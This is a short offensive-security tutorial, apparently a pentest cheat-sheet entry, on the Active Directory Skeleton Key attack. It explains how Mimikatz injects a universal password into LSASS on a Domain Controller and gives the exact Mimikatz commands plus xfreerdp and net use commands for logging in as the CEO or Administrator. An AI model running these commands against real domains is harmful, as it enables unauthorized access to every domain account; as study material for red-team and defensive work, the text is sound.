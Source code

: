 **The Skeleton Key** attack refers to a method used by attackers to gain unauthorized access to systems in an Active Directory environment. It allows an attacker to install a "skeleton key" into the LSASS (Local Security Authority Subsystem Service) memory on a Domain Controller. This skeleton key enables the attacker to log into any account on the domain using a universal password (usually "**mimikatz**"), while the legitimate user can still log in with their actual credentials.


**How Skeleton Key Works:**

   1- Inject Skeleton Key into LSASS:
        The attacker injects a skeleton key into the LSASS process on the Domain Controller using Mimikatz.
        After injecting the skeleton key, the attacker can use a specific password ("mimikatz") to authenticate to any account in the domain.

   2- Accounts Remain Unaffected:
        The legitimate users will continue using their normal passwords without being aware that the attacker has set up a backdoor to access their accounts.

> The skeleton key attack is not persistent. The injected skeleton key is wiped from memory when the Domain Controller is rebooted, meaning it will need to be re-injected after each restart.


**Example of Using Skeleton Key in Mimikatz:**


```
privilege::debug
misc::skeleton
```

After that, you can authenticate as any user by providing the same password, which by default is “**mimikatz**”

**RDP**

RDP can be used to authenticate against the Skeleton Key to access high level accounts from a GUI. Below we can access the CEO's desktop directly.
```
xfreerdp /v:<IP> /u:<User> /p:<mimikatz> /d:<Domain> #Syntax
xfreerdp /v:10.10.10.9 /u:CEO /p:mimikatz /d:security.local
```
**Mapping Remote Shares**

```
net use <DriveLetter:> \\<IP>\<Share> /user:<User> mimikatz #Syntax
net use  \\10.10.10.9\ADMIN$ /user:Administrator mimikatz
```





















